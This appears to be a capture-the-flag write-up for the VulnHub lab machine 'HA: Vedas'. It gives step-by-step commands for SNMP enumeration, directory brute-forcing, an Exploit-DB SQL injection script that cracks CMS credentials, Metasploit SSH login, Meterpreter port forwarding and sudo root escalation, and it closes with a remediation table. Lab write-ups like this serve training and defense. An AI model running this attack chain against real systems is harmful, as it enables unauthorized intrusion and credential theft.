





# HA: Vedas — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.0.163 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | 4 flags (Rig Veda, Yajur Veda, Sama Veda, Atharva Veda) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/ha-vedas-vulnhub-walkthrough/) |

## Attack Summary

Four flags are hidden across multiple services. SNMP enumeration reveals Flag 1. A CMS login page found via a custom wordlist brute-force hosts an SQL injection vulnerability that yields credentials for Flag 2. Meterpreter port forwarding exposes an internal service containing Flag 3. Lateral movement to the `vedas` user and a `sudo bash` escalation reach root for Flag 4.

## Methodology

1. Host and service discovery (Nmap TCP + UDP, SNMP)
2. SNMP enumeration for Flag 1
3. Custom wordlist generation with CeWL; directory brute-force with Dirb
4. SQL injection via Exploit-DB 46635.py for CMS credentials and Flag 2
5. SSH login with Metasploit; session upgrade to Meterpreter
6. Port forwarding to expose internal service for Flag 3
7. Lateral movement to `vedas` user; `sudo bash` for root and Flag 4

## Step 1: Host Discovery and Port Scan

```bash
netdiscover
# Target: 192.168.0.163

nmap -A 192.168.0.163
# TCP: 22 (SSH), 80 (HTTP)

nmap -sU 192.168.0.163
# UDP: 161 (SNMP)
```



## Step 2: SNMP Enumeration — Flag 1 (Rig Veda)

```bash
msfconsole -q
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 192.168.0.163
exploit
```

**Flag 1: Rig Veda** is embedded in the SNMP response.



## Step 3: Custom Wordlist and Directory Brute-Force

The web page at port 80 contains text. Use CeWL to build a wordlist from it:

```bash
cewl http://192.168.0.163/ > dict.txt
```

Run Dirb with the custom wordlist:

```bash
dirb http://192.168.0.163/ dict.txt
```

Hidden directory `/Kashyapa` is found — it hosts a CMS login page.

## Step 4: SQL Injection to Dump Credentials — Flag 2 (Yajur Veda)

Search Exploit-DB for the CMS:

```bash
searchsploit cms
# Exploit 46635.py
```

Download and run the SQL injection exploit:

```bash
searchsploit -m 46635
python 46635.py -u http://192.168.0.163/Kashyapa/ --crack -w /root/dict.txt
```

Credentials recovered: **`atri:anasuya`**

Log in at `/Kashyapa/admin/login.php`. The dashboard reveals **Flag 2: Yajur Veda**.



## Step 5: SSH Access via Metasploit

```bash
msfconsole -q
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.0.163
set USERNAME atri
set PASSWORD anasuya
exploit
# Session 1 established

sessions -u 1
# Upgrade to Meterpreter (session 2)
```

## Step 6: Internal Service Discovery and Port Forwarding — Flag 3 (Sama Veda)

In the Meterpreter session:

```bash
sessions -i 2
shell
netstat -tulnp
# Port 5000 listening on 127.0.0.1

# Back in Meterpreter:
portfwd add -l 5000 -p 5000 -r 127.0.0.1
```

Browse `http://127.0.0.1:5000` on the attacker machine. The page displays **Flag 3: Sama Veda**.



## Step 7: Lateral Movement and Privilege Escalation — Flag 4 (Atharva Veda)

From the shell session:

```bash
cd /home
ls
# Users: atri, vedas

su vedas
# Use password from earlier context

sudo -l
# vedas can run sudo

sudo bash
whoami
# root

cd /root
cat final.txt
# Flag 4: Atharva Veda
```



## Lessons Learned

- SNMP (UDP/161) with default community string `public` exposes sensitive system information and flags without any authentication.
- Wordlist-based directory brute-force with CeWL produces highly targeted lists from the target's own content, outperforming generic lists on custom CMSes.
- SQL injection in older CMS platforms is common; always search Exploit-DB with the exact CMS name and version.
- Internal services listening only on `localhost` can be reached from the attacker via Meterpreter port forwarding.
- Overly permissive `sudo` rules (`sudo bash` or `sudo su`) are a direct path to root.

## Remediation

| Vulnerability | Fix |
|---|---|
| SNMP with default community string | Disable SNMP or use SNMPv3 with authentication |
| CMS SQL injection (CVE via 46635) | Upgrade the CMS; use parameterized queries |
| Weak credentials (`atri:anasuya`) | Enforce strong password policy |
| Internal service exposed without authentication | Add authentication to the service; restrict with firewall |
| Unrestricted `sudo bash` for regular user | Remove unnecessary sudo rights; use least-privilege `sudoers` rules |
